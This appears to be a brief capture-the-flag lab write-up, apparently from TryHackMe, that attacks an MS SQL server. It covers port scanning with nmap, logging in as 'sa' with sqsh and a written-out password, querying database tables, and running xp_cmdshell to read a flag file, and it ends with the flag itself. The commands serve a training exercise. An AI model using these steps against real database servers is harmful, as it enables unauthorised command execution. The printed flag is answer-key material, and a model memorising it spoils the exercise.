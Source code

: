 # Ms sql 

nmap -Pn 10.10.203.162

didnt get any result so try -p1000-1500 i dont have time so i just googled default ms sql port got 1433 ; 

sqsh -S 10.10.29.3 -U sa -P t7uLKzddQzVjVFJp
get prompt "1>"

SELECT * FROM reindeer.dbo.schedule
SELECT * FROM reindeer.dbo.presents

```
1> xp_cmdshell  "type c:\Users\grinch\Documents\flag.txt"
2> go
```
THM{YjtKeUy2qT3v5dDH}